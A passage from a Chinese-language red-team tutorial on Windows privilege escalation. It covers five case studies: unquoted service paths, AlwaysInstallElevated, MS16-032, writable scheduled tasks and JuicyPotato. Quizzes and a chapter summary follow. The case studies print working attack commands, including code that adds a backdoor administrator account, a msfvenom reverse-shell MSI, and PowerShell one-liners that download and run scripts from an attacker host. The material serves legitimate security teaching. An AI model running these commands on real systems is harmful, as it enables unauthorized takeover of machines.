3. `C:\Program Files\My App\service.exe`

如果我们能在`C:\Program Files\`目录下
创建一个叫`My.exe`的文件，
那服务启动的时候，
就会执行我们的`My.exe`，
而不是原来的`service.exe`。

而且服务是System权限运行的，
这样我们就能拿到System权限了。

**第四步：验证目录权限**
```cmd
C:\> icacls "C:\Program Files\My App"
# 发现普通用户有写入权限！
```

太好了，有写入权限。

**第五步：制作恶意程序**
我们生成一个添加管理员用户的程序：
```c
// add_user.c
#include <stdlib.h>
int main() {
    system("net user hacker P@ssw0rd /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```
编译成exe，命名为`My.exe`。

**第六步：上传并提权**
```cmd
# 上传 My.exe 到 C:\Program Files\My App\

# 重启服务（如果有权限的话）
sc stop MyService
sc start MyService

# 或者等系统自动重启服务
# 或者等系统重启
```

服务重启之后，
就会执行我们的`My.exe`，
添加一个管理员用户。

**第七步：验证**
```cmd
C:\> net localgroup administrators
# 发现hacker用户已经在管理员组里了！
```

提权成功！

**总结：**
- 这是一个很经典的配置错误提权
- 利用了服务路径未引用的漏洞
- 方法简单，风险小，成功率高
- 信息收集很重要，一眼就能看出来

### 案例2：用PowerUp快速找到提权点

**场景：**
拿到一个Windows 10的Shell，
是普通用户，
不知道怎么提权，
用PowerUp扫一下。

**操作步骤：**

**第一步：下载并运行PowerUp**
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.10/PowerUp.ps1")
Invoke-AllChecks
```

**第二步：查看结果**

PowerUp输出了很多信息，
其中有几项是红色的（高危）：

```
[*] Checking for AlwaysInstallElevated...
[!] AlwaysInstallElevated is enabled!
    HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer: AlwaysInstallElevated = 1
    HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer: AlwaysInstallElevated = 1
```

哦！AlwaysInstallElevated开启了！

这意味着什么？
意味着任何用户都可以以System权限
安装MSI安装包。

**第三步：制作恶意MSI**

方法一：用msfvenom生成
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f msi -o evil.msi
```

方法二：用PowerUp自带的函数
```powershell
# 生成一个添加用户的MSI
Write-UserAddMSI
```

**第四步：安装MSI提权**
```cmd
msiexec /quiet /qn /i evil.msi
```

安装完成之后，
就获得System权限了！

**第五步：验证**
```cmd
whoami
# nt authority\system
```

成功！

**总结：**
- PowerUp太方便了，一键扫描出问题
- AlwaysInstallElevated是经典的配置错误
- 很多企业环境为了方便会开启这个
- 用PowerUp可以节省大量时间

### 案例3：内核漏洞提权（MS16-032）

**场景：**
拿到一台Windows 7的Shell，
普通用户权限，
配置错误都试过了不行，
试试内核漏洞。

**操作步骤：**

**第一步：系统信息收集**
```cmd
C:\> systeminfo
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7601 Service Pack 1 Build 7601
System Type:               x64-based PC

Hotfix(s):                 50 Hotfix(s) Installed.
                           [01]: KBxxxxxxx
                           [02]: KBxxxxxxx
                           ...
```

**第二步：用Windows-Exploit-Suggester检测**

```bash
# 先把systeminfo的输出保存下来
# 然后在本地运行
./windows-exploit-suggester.py --database db.xls --systeminfo systeminfo.txt
```

输出结果：
```
[+] MS16-032: Security Update for Secondary Logon (3139914)
    https://www.exploit-db.com/exploits/39719/
    https://www.exploit-db.com/exploits/40137/
    * likely vulnerable
```

MS16-032！看起来有戏。

**第三步：找到对应的EXP**

去exploit-db搜MS16-032，
找到对应的EXP。

MS16-032有几个版本：
- 32位PowerShell版本
- 64位PowerShell版本
- 二进制版本

我们的目标是64位Win7，
用64位PowerShell版本的。

**第四步：上传并执行**

```powershell
# 下载EXP
IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.10/ms16-032.ps1")

# 执行
Invoke-MS16032 -Command "cmd.exe /k whoami"
```

如果成功的话，
会弹出一个System权限的CMD窗口。

**第五步：验证**
```cmd
C:\Windows\system32> whoami
nt authority\system
```

成功拿到System权限！

**注意事项：**
1. 一定要对应系统版本和架构
2. 内核漏洞有蓝屏风险，先在虚拟机测试
3. 执行前先看看EXP的说明和要求
4. 重要系统慎打，万一打蓝屏了就麻烦了

**总结：**
- 内核漏洞提权成功率高，但有风险
- 用工具辅助检测可以节省时间
- 一定要对应版本和架构
- 重要系统谨慎使用

### 案例4：计划任务提权

**场景：**
拿到一台Windows Server 2012的Shell，
普通用户权限，
用WinPEAS扫描发现了可疑的计划任务。

**操作步骤：**

**第一步：WinPEAS扫描**
```cmd
winPEASx64.exe tasksinfo
```

结果发现：
```
[!] Interesting -  C:\Scripts\backup.bat  runs as SYSTEM every 5 minutes
    File Permissions: BUILTIN\Users:(I)(F)
```

意思是：
- 有一个计划任务，每5分钟运行一次
- 运行的是`C:\Scripts\backup.bat`
- 以SYSTEM权限运行
- 而且这个文件普通用户可以修改！

哇，这简直是送分题！

**第二步：验证**
```cmd
C:\> schtasks /query /fo LIST /v | findstr /i "backup"
# 确认任务存在，运行账户是SYSTEM

C:\> icacls "C:\Scripts\backup.bat"
# 确认有写入权限
```

**第三步：修改批处理文件**

我们在`backup.bat`末尾加一行：
```batch
net user hacker P@ssw0rd123 /add
net localgroup administrators hacker /add
```

或者加一个反弹Shell的命令。

**第四步：等待执行**
任务每5分钟运行一次，
我们只需要等就好了。

**第五步：验证**
等了5分钟...
```cmd
C:\> net localgroup administrators
# hacker用户已经在里面了！
```

提权成功！

**总结：**
- 计划任务是常见的提权路径
- 尤其是以高权限运行的任务
- 如果任务的脚本我们能修改，那就稳了
- 信息收集的时候一定要看看计划任务

### 案例5：SeImpersonatePrivilege提权

**场景：**
拿到一台Windows Server 2019的Shell，
是一个服务账户，
权限不高，
但是有`SeImpersonatePrivilege`权限。

**操作步骤：**

**第一步：查看权限**
```cmd
C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
```

看到了吗？
`SeImpersonatePrivilege`是启用的！

这个权限意味着什么？
意味着我们可以模拟其他用户的令牌，
如果能拿到System的令牌，
就能提权到System。

**第二步：使用Juicy Potato提权**

Juicy Potato是一个著名的提权工具，
专门利用`SeImpersonatePrivilege`权限提权。

```cmd
# 上传JuicyPotato.exe和我们的payload

# 执行提权
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID}

# 或者用更简单的参数
JuicyPotato.exe -t * -p cmd.exe -a "/c net user hacker P@ssw0rd /add"
```

**第三步：验证**
```cmd
C:\> whoami
nt authority\system
```

成功！

**原理说明：**
Juicy Potato的原理比较复杂，
简单说就是：
通过COM对象和模拟权限，
诱使System进程向我们的进程认证，
然后我们模拟它的令牌，
从而获得System权限。

**类似的工具：**
- Rotten Potato
- Juicy Potato
- Rogue Potato
- Sweet Potato
- PrintSpoofer
- ...

不同的系统版本用不同的工具。

**总结：**
- 有SeImpersonatePrivilege权限通常可以提权
- 不同系统版本用不同的Potato工具
- 这是非常经典的提权手法
- 服务账户经常有这个权限

---

## ✏️ 课后习题

### 一、选择题（10道）

1. Windows中最高权限的用户是？
   A. Administrator
   B. Guest
   C. SYSTEM
   D. Power User

2. 以下哪个不是提权的常见分类？
   A. 内核漏洞提权
   B. 错误配置提权
   C. 第三方软件提权
   D. 网络钓鱼提权

3. 查看当前用户拥有哪些权限的命令是？
   A. whoami
   B. whoami /priv
   C. whoami /groups
   D. net user

4. 以下哪个是专门的Windows提权检查工具？
   A. Nmap
   B. WinPEAS
   C. SQLMap
   D. Nikto

5. AlwaysInstallElevated注册表项的作用是？
   A. 总是提升安装权限，普通用户也能以System权限安装MSI
   B. 总是提升管理员权限
   C. 自动更新安装程序
   D. 安装程序时自动提升UAC

6. 未引用的服务路径（Unquoted Service Path）是什么意思？
   A. 服务的可执行文件路径中没有空格
   B. 服务的可执行文件路径中有空格且没有用引号括起来，可能导致路径解析问题
   C. 服务没有引用正确的DLL
   D. 服务没有引用注册表

7. PowerUp是什么？
   A. 一个提权EXP
   B. 一个PowerShell脚本，用于检查Windows提权点
   C. 一个内核漏洞
   D. 一个杀毒软件

8. 以下哪个权限可以用来提权？
   A. SeShutdownPrivilege
   B. SeDebugPrivilege
   C. SeChangeNotifyPrivilege
   D. SeUndockPrivilege

9. Juicy Potato工具利用的是哪个权限？
   A. SeDebugPrivilege
   B. SeBackupPrivilege
   C. SeImpersonatePrivilege
   D. SeLoadDriverPrivilege

10. 提权的时候，建议按什么顺序尝试？
    A. 内核漏洞 → 配置错误 → 第三方软件
    B. 配置错误 → 第三方软件 → 内核漏洞
    C. 第三方软件 → 内核漏洞 → 配置错误
    D. 随便试，哪个好用哪个

### 二、填空题（5道）

1. Windows中最高权限的内置账户是 ______。
2. 查看系统信息和补丁的命令是 ______。
3. 查看所有本地用户的命令是 `net ______`。
4. 查看所有服务的wmic命令是 `wmic ______ get name,pathname`。
5. 查看计划任务的命令是 `______ /query /fo LIST /v`。

### 三、简答题（5道）

1. 什么是提权？为什么要提权？
2. Windows提权大致可以分为哪几类？各有什么优缺点？
3. 提权前需要收集哪些信息？为什么信息收集很重要？
4. 你知道哪些Windows提权辅助工具？它们各有什么特点？
5. 简述Windows提权的基本流程和思路。

### 四、实操题（5道）

1. 在你的Windows实验环境中，练习使用systeminfo、whoami、net user等基础命令，收集系统信息。
2. 下载并运行PowerUp，查看输出结果，理解每一项检查的含义。
3. 下载并运行WinPEAS，对比PowerUp，看看两者的输出有什么不同。
4. 找一个Windows靶机（比如VulnHub上的），练习从普通用户权限提权到System。
5. 自己写一个简单的信息收集批处理脚本，能一键收集常用的系统信息。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了Windows提权的基础知识。

**重点回顾：**

1. **提权基础概念**
   - 什么是提权：从低权限提升到高权限
   - 提权的分类：内核漏洞、配置错误、第三方软件
   - 纵向提权 vs 横向提权

2. **Windows权限体系**
   - 用户账户：SYSTEM > Administrator > 普通用户
   - 用户组：Administrators、Users、Guests...
   - 权限：SeDebug、SeBackup、SeImpersonate...
   - 服务账户：Local System、Local Service、Network Service
   - UAC用户账户控制

3. **提权信息收集**
   - 系统信息：版本、补丁、架构
   - 用户和组信息
   - 进程和服务信息
   - 计划任务
   - 注册表
   - 文件和权限
   - 已安装软件

4. **提权辅助工具**
   - PowerUp：PowerShell提权检查脚本
   - WinPEAS：功能强大的提权检查工具
   - Windows-Exploit-Suggester：内核漏洞检测
   - 其他：Sherlock、Seatbelt、JAWS...

5. **提权思路与流程**
   - 确认当前权限
   - 收集系统信息
   - 用工具扫描
   - 分析结果，选择提权路径
   - 执行提权
   - 验证和后续

提权是一个很大的话题，
这一章只是入门，
下一章我们会深入学习
各种具体的提权方法。

准备好了吗？
我们继续前进！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day048-senior-MSF模块总结)
- [➡️ 下一章：---](/redteam/day050-senior-Windows提权进阶)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
